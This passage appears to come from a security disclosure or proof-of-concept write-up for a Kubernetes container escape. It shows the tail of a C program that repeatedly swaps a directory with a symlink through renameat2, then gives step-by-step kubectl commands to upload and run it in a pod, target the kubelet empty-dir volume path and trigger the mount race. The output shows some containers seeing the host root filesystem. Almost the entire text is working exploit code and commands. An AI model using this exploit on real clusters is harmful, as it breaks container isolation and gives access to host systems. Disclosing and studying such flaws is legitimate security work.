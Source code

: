         if (mkdir(name1, 0755) < 0) {
            perror("mkdir failed");
            //do not exit
        }
        if (symlink(linkdest, name2) < 0) {
            perror("symlink failed");
            //do not exit
        }

        while (1)
        {
            renameat2(dirfd, name1, dirfd, name2, RENAME_EXCHANGE);
        }
    }
    EOF

    gcc race.c -O3 -o race
    ```

3.  Wait for the container c1 to start, upload the 'race' binary to it, and exec bash

    ```
    sleep 30 # wait for the first container to start
    kubectl cp race -c c1 attack:/test1/
    kubectl exec -ti pod/attack -c c1 -- bash
    ```

    you now have a shell in container c1

4.  Create the following symlink (explanations later)

    ```
    ln -s / /test2/test2
    ```

5.  Launch 'race' multiple times to try to exploit this TOCTOU

    ```
    cd test1
    seq 1 4 | xargs -n1 -P4 -I{} ./race mnt{} mnt-tmp{} /var/lib/kubelet/pods/$MY_POD_UID/volumes/kubernetes.io~empty-dir/
    ```

6.  Now that everything is ready, in a second shell, update the images so that the other containers can start

    ```
    for c in {2..20}; do
      kubectl set image pod attack c$c=ubuntu:latest
    done
    ```

7.  Wait a bit and look at the results

    ```
    for c in {2..20}; do
      echo ~~ Container c$c ~~
      kubectl exec -ti pod/attack -c c$c -- ls /test1/zzz
    done
    ```
    ```
    ~~ Container c2 ~~
    test2
    ~~ Container c3 ~~
    test2
    ~~ Container c4 ~~
    test2
    ~~ Container c5 ~~
    bin   dev  home  lib64     mnt  postinst  root  sbin tmp  var